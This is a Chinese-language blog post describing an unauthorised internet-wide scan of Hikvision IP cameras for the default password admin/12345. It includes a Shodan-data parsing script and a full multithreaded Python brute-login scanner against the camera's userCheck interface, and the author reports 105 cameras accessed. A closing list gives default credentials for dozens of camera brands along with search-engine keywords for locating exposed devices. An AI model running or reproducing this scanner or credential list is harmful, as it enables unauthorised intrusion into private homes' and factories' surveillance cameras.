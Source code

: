 # 针对海康威视网络摄像头弱密码的一次扫描


## 前言

在我上高二的时候，海康威视摄像头被爆出大量公开web访问具有弱密码，那时手动对学校内部的摄像头进行fuzz，成功进入了几个摄像头控制web，能够随意查看学校的监控。

海康威视web界面的弱密码是 admin  12345

时隔四年，想要再次对网络上能够访问到的海康威视web管理进行一次批量弱密码扫描

## 从shodan获取数据

首先需要搞到全网所有能够访问到的海康威视机器的IP，这是个工作量极大的任务，如果自己进行全网服务扫描的话无论是时间周期还是耗费资金都是我无法承受的

之前了解过shodan，shodan被称为“最恐怖的搜索引擎”，能够提供多年来其扫描到的全网提供的服务，可惜数据的价格极高

今年黑五是shodan诞生第十年，shodan给出极大的优惠，正式会员+20credit只需要1刀，手头有信用卡和企业邮箱的我二话不说先上了20个账号

有了shodan的credit就可以购买它的数据了。海康威视的web管理界面的关键词很简单，只需要在shodan搜索“hikvision”

![最新的搜索结果](shodan1.png)

在我写这篇博客的时候搜索到的数据有18万条，前段时间我下载数据的时候是19万条。

下载大量数据是需要花credit的，1credit可以下载1万条数据，所以19万多的数据花费了我20credit，正常情况下20credit是49刀，这次黑五真是太实惠了

## 提取有用信息

有了数据之后通过python解析，检查是否存在http服务，如果存在就提取ip和port

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

import json

fi = open("shodan_data.json")
fo = open("ip.txt", 'w')

line = fi.readline()
numall = 1
num = 0

while line:
    line = fi.readline()
    numall = numall+1
    try:
        a = json.loads(line)
        if 'http' in a:
            num = num+1
            txt = a['http']['host']+':'+str(a['port'])+'\n'
            fo.write(txt)
            print(txt)
    except Exception as e:
        continue

fo.close()
fi.close()

print(numall)
print(num)
```

## 分析与扫描

然后通过多线程python脚本进行弱密码批量扫描。

通过手工尝试找到一台可以弱密码登录进去的机器，通过burp抓包分析，找到用来验证弱密码的接口。

![登录使用的接口和验证方式](baseauth.png)

分析发现登录使用的是base auth，这就简单了。使用的接口是userCheck，如果登录成功应该返回200.

![登录成功](authsuccess.png)

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
#批量筛选海康威视摄像头的弱密码
import threading
import requests
import queue
import sys
import re

def Threads():
    threadlist=[]
    myqueue=queue.Queue()
    for ip in open('ip.txt','r'): #扫描出的ip
        myqueue.put(ip.replace('\n',''))
    for x in range(0,100):  #线程数
        th=threading.Thread(target=scan_Hikvision,args=(myqueue,))
        threadlist.append(th)
    for t in threadlist:
        t.start()
    for t in threadlist:
        t.join()

def scan_Hikvision(myqueue):
    while not myqueue.empty():
        ip=myqueue.get()
        try:
            print("[*]scan:"+ip)
            r = requests.get(url=("http://%s/PSIA/Custom/HIK/userCheck" % ip),auth=('admin','12345'),timeout=10)
            status = re.findall(r'<statusValue>(.*)</statusValue>', r.text)
            if status[0] == '200':
                print('[√] Host http://'+ ip +' Login Success!\n')
                f = open('ok.txt', 'a+')
                f.write(ip+"\n")
                f.close()
                break
        except:
            continue

if __name__=='__main__':
    Threads()
```

正好有个美国的vps，就扔到这个服务器上进行扫描，本机也开起来扫

100线程很快就扫描完毕了，国内外扫描完的结果去重后一共留下105个可登录弱密码。感觉不应该只有这么点，登录后查看只发现一个版本的海康威视，可能是检测弱密码的接口在其他版本中不存在，或者其他版本默认密码更换或者其他原因

## 后话

海康威视应该是采取了手段来避免弱密码的再次产生，但是之前老版本的DVR还有一部分并没有进行更新，大部分是农村的家庭或工厂监控，大家也都不太懂，并没有修改默认密码

心里不是滋味，身边也有一些父母的朋友他们让我帮忙安装一些路由器、监控等设备，他们的文化水平不高，当我要给他们修改密码的时候，一部分会选择手机号码，也有一部分让我不要修改密码，说改了别记不住，直接出厂密码就行了，忘了可以看一下说明书

能不能想出一种办法，既考虑到安全性，又能顾虑到这部分人的需求，这是个问题

## 弱密码收集

```
1.海康威视IP网络摄像机：
用户：admin，密码：12345
zoomeye搜索关键词：hikvision
2.大华网络摄像机：
user:admin pass:admin 管理权限
user:default pass:user 用户默认登陆帐号
user:888888 pass:admin
user:666666 pass:user
zoomeye搜索关键词：WEB SERVICE
3.cctv摄像机：
user：admin pass：空
telnet登陆 user：root pass：”juantech”
zoomeye搜索关键词：JAWS/1.0
4.SQ-WEBCAM摄像机：
user：admin pass：admin
zoomeye搜索关键词：SQ-WEBCAM
ACTi: admin/123456 or Admin/123456
American Dynamics: admin/admin or admin/9999
Arecont Vision: none
Avigilon: admin/admin
Axis: traditionally root/pass, new Axis cameras require password creation during first login
Basler: admin/admin
Bosch: none
Brickcom: admin/admin
Canon: root/camera
Cisco: No default password, requires creation during first login
Dahua: admin/admin
Digital Watchdog: admin/admin
DRS: admin/1234
DVTel: Admin/1234
DynaColor: Admin/1234
FLIR: admin/fliradmin
Foscam: admin/
GeoVision: admin/admin
Grandstream: admin/admin
Hikvision: admin/12345
Honeywell: admin/1234
IQinVision: root/system
IPX-DDK: root/admin or root/Admin\
JVC: admin/jvc
March: Networks: admin/
Mobotix: admin/meinsm
Panasonic: admin/12345
Pelco Sarix: admin/admin
Pixord: admin/admin
Samsung Electronics: root/root or admin/4321
Samsung Techwin (old): admin/1111111
Samsung (new): admin/4321
Sanyo: admin/admin
Scallop: admin/password
Sentry360 (mini): admin/1234
Sentry360 (pro): none
Sony: admin/admin
Speco: admin/1234
Stardot: admin/admin
Starvedia: admin/
Trendnet: admin/admin
Toshiba: root/ikwd
VideoIQ: supervisor/supervisor
Vivotek: root/
Ubiquiti: ubnt/ubnt
Wodsee: admin/
```

